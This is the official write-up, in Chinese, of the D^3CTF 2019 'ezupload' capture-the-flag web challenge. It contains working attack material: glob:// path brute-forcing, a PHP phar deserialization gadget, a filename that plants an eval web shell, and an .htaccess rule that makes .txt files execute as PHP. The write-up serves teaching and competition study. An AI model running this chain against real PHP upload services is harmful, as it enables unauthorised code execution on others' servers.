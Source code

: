 # D^3ctf 2019 Official Writeup ezupload

> 出题人：Lou00@Vidar

> 考察点：glob://爆破 文件上传写shell
> 题目描述: webroot in /var/www/html
> hint1: webroot changes every 10 mins
> hint2: glob
> hint3: https://www.php.net/manual/en/language.oop5.decon.php   Pay attention to the notes in the article 

## 前言
赛后看到了Nu1l的非预期,直接把第一考点绕过了
导致给的一些hint没啥用 (hint真是害人不浅_(:з」∠)_
## 预期解
通过审计代码可以发现存在反序列化漏洞,可以任意文件写入
但是如果是用相对路径的话,发现无法写入
通过hint3知道
![-w828](http://image.lou00.top/img/ezupload/15747757481797.jpg)
在析构函数中工作目录可能会变
以下代码可以测试
![-w344](http://image.lou00.top/img/ezupload/15747755154564.jpg)
意思是要找到绝对路径
所以第一部分的payload是
```
action=count&url=1&filename=1&dir=glob:///var/www/html/*/upload/{your_upload_path}/*
```
通过爆破得到路径(然而非了
得到路径后就可以通过文件名写shell了
构造类似与下面的文件名
```
action=upload&url=http://xxx&filename=<?php echo 1.1;eval($_GET["a"]);
```
构造反序列化

```php
<?php
class dir{
    public $userdir;
    public $url;
    public $filename;
    public function __construct($usedir,$url,$filename){
	$this->userdir = $usedir;
	$this->url = $url;
	$this->filename = $filename;
    }
}
$a = new dir('upload/{your_upload_path}','','');
$b = new dir($a,'','/var/www/html/xxx/upload/{your_upload_path}/2');
$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER();?>;"); 
$phar->setMetadata($b); 
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
echo urlencode(serialize($b));
```
上传后通过`file_get_contents`触发

```
action=upload&url=phar://upload/{your_upload_path}/1.jpg&filename=2.jpg
```
然后就会发现一个带有`<?`的txt文件
最后上传一个`.htaccess`文件
内容为

```
AddHandler php7-script .txt
```
即可解析php
最后是bypass `open_basedir`
最后附上一份比赛时用于检测flag的[脚本](https://github.com/Lou00/d3ctf_2019_ezupload/blob/master/poc.py)
供师傅们参考
